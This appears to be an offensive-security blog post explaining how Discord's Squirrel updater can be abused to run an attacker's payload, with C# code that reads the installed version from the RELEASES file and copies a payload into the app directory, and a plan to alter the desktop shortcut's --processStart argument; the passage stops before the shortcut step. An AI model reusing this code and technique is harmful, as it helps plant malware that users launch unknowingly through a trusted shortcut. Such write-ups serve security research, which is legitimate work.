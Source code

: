 ```yaml
---
title: "Using Squirrel Framework to escalate privileges"
categories:
tags:
  - squirrel-framework
header:
  og_image: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"
  overlay_image: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"
---
```


The [Squirrel framework](https://github.com/Squirrel/Squirrel.Windows) can be used to trick the user and escalate privileges. Keep in mind that this is no vulnerability in Squirrel, we are just taking advantage of how it works.

In this example we will check Discord, which uses Squirrel for updating.

By checking out the Desktop shortcut that is created during installation, we can see an interesting argument passed to the Update.exe

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FiJLHQNak3q7BAm6FeVrJ%2Fimage.png?alt=media&token=18840807-3d35-4a5c-9e1c-39d341d31ef2"/>
</div>

<p>The argument "--processStart" as per the documentation "Start an executable in the latest version of the app package".</p>

So what if we place a payload in the app directory, change the shortcut an run it?

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FLJkoTumaUAFTM734DdXH%2Fimage.png?alt=media&token=c60d0413-5e33-456b-ad81-00675e5f4d53"/>
</div>

<p>Our payload runs:</p>

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2F6hcO8GNGP30qPD8F74kC%2Fimage.png?alt=media&token=7e8977d6-a96a-4c29-ab31-47ecf46e167d"/>
</div>

<p>So to create our little POC we need a few things:</p>

1. Find the latest version of the app package.
2. Place our payload on the latest app package directory.
3. Change the Shortcut to lunch our payload instead of the discord binary.


<h2>Finding the latest version of the app package</h2>

The version of the app is inside a file located on: ``%localappdata%\Discord\packages\RELEASES`` 

If we check the contents of this file, we have something like this: 
``230E51FC4929ACDC6DF44F0BA88B82316DDC97BF discord-updater-1.0.9013.nupkg 166474477``

What we need is this value here: ``1.0.9013``, to do this we can use regex and extract it:
```csharp
private string GetVersion(string fullPath)
{
    string releasesFilePath = Path.Combine(fullPath, "packages", "RELEASES");

    if (File.Exists(releasesFilePath))
    {
        string content = File.ReadAllText(releasesFilePath);

        string pattern = @"\d+(\.\d+)+";
        Match match = Regex.Match(content, pattern);

        if (match.Success)
            return match.Value;
    }

    return string.Empty;
}
```

The ``fullPath`` is the root directory of discord: ``%localappdata%\Discord``.

<h2>Placing our payload on the latest app package directory</h2>



```csharp
private void CopyPayloadToDestiny(string fullPath, string version, string payloadPath)
{
    string appDirectory = Path.Combine(fullPath, $"app-{version}");

    if (Directory.Exists(appDirectory))
        File.Copy(payloadPath, Path.Combine(appDirectory, Path.GetFileName(payloadPath)), true);
}
```